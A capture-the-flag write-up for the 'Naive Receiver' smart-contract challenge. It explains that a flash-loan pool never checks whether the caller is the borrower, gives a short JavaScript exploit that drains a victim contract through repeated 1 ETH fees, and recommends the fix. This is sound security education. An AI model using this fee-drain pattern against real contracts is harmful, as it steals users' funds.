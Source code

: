 # Naive-Receiver

## Introduction
The goal is to drain the user tokens.
In this section, flash loan from ***NaiveReceiverLenderPool.sol*** impose a fixed interest rate of 1 ether (Holy jesus)
Therefore, 1 token will be extracted from the user for every flash loan.

## Code Breakdown
Let's start by breaking down the source code into functions.
There are two files - ***FlashLoanReceiver.sol*** and ***NaiveReceiverLenderPool.sol***.
Similiar to the previous challenge, ***NaiveReceiverLenderPool.sol*** will execute function from ***FlashLoanReceiver.sol*** during a flashloan.

Let's look at ***NaiveReceiverLenderPool.sol*** primarily.
Two types of variables are declared at the start - ***Address*** and ***FIXED_FEE***.
```
using Address for address;
uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
```

The primary function of the smart contract have several items to look at
```
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    //goal to drain user's contract funds

    uint256 balanceBefore = address(this).balance; 
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool"); 

    require(borrower.isContract(), "Borrower must be a deployed contract"); //can only be called from a different contract
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );
    
    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

Unlike the previous challenge, only 1 pool exist now.
***balanceBefore*** is a variable that stores the current number of ethers in the pool prior to a flash loan.
It must be more or equal to ***borrowAmount***.
```require(balanceBefore >= borrowAmount, "Not enough ETH in pool");``` 

Next, borrower must be a deployed contract rather than a user.
```require(borrower.isContract(), "Borrower must be a deployed contract");```

Next, it will execute ***receiverEther(uint256)*** function from ***FlashLoanReceiver.sol***.
```sol
// Transfer ETH and handle control to receiver
borrower.functionCallWithValue(
    abi.encodeWithSignature(
        "receiveEther(uint256)",
        FIXED_FEE
    ),
    borrowAmount
);
```

After executing the function from ***FlashLoanReceiver.sol***, it will check if the borrowed amount is payed along with the fixed fee.
```sol
require(
    address(this).balance >= balanceBefore + FIXED_FEE,
    "Flash loan hasn't been paid back"
);
```

## Hints
This function does not check if the ***msg.sender*** is indeed the borrower.
```sol
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant
```
Thus, an attacker can insert any valid address and initiate a flash loan causing the victim to pay the fixed fee.

## Solution
The solution is to siphon tokens away from a legitimate user by putting in their address for a flash loan.
By doing so, the smart contract will charge the legitimate user a fixed fee of 1 ETH per flash loan till they run out.
This is the easy solution.
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */   
    while (true){
        await this.pool.flashLoan(this.receiver.address, 0);
        value = String(await ethers.provider.getBalance(this.receiver.address));
        console.log(value);
        if (value == "0"){
            break;
        }
    }
});
```

## Recommendations
Always check if the sender is the borrower. A simple require statement can be implemented at the start of the flash loan
```require(msg.sender == borrower);```